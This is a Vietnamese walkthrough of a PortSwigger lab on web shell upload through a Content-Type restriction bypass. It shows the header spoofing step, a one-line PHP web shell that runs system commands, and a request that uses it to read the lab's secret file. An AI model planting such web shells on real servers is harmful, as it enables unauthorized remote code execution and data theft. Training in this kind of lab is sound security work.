


## 1. Thông tin bài lab
- Tên lab: **Web shell upload via Content-Type restriction bypass**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.


- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.


**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.



**Kiểm tra giả thuyết**
- Sau khi upload, ta nhận được phản hồi từ phía server kiểu file `application/octet-stream` chỉ cho phép upload các file kiểu `image/png, image/jpeg`


- Có vẻ như server căn cứ vào header `Content-Type` để nhận diện loại file
- Thử thay đổi nội dung header thành **image/png** hoặc **image/jpeg** và upload lại file.


- Kết quả upload file thành công, thử truy cập đến file thông qua phương thức GET để xem liệu mã PHP có được thực thi không?
- Mã PHP đã được thực thi tiếp theo ta tiến hành RCE và đọc nội dung tệp tin bí mật



## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.


- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`


